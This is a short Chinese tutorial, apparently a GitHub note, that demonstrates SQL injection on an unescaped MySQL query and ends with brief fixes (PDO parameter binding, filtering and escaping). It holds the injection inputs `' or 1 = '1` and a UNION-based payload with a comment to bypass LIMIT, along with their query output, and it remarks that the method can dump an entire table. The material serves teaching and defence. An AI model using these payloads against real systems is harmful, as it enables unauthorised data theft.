 ## SQL 注入攻击

### SQL未转义注入

#### 正常请求
- name = `lucky`

```sql
mysql> select * from t_new where name = 'lucky' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 验证是否可以进行SQL注入
- name = `lucky' or 1 = '1`
```sql
mysql> select * from t_new where name = 'lucky' or 1 = '1' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
```

#### 构造SQL，获取更多的数据
- name = `lucky' union select * from t_new where id = '90002' limit 2; --`
- 如上攻击SQL稍做修改，就可以把整个表脱下来，俗称“`脱裤`”
- `--` 会直接注释后面的 `' limit 1;`，这样一来可以解决`limit 1`的限制，在命令行多产生两条SQL，不影响数据的查询
```sql
mysql> select * from t_new where name = 'lucky' union select * from t_new where id = '90002' limit 2; --' limit 1;
+-------+-------+----------+---------------------+--------+
| id    | name  | birth    | create_time         | status |
+-------+-------+----------+---------------------+--------+
| 90001 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
| 90002 | lucky | 20170724 | 2021-03-31 18:19:29 | 9      |
+-------+-------+----------+---------------------+--------+
2 rows in set (0.00 sec)

    '>
```

### 解决方案
- PDO
    - `where('name = ?', 'lucky')`
- 过滤、拦截、转义等
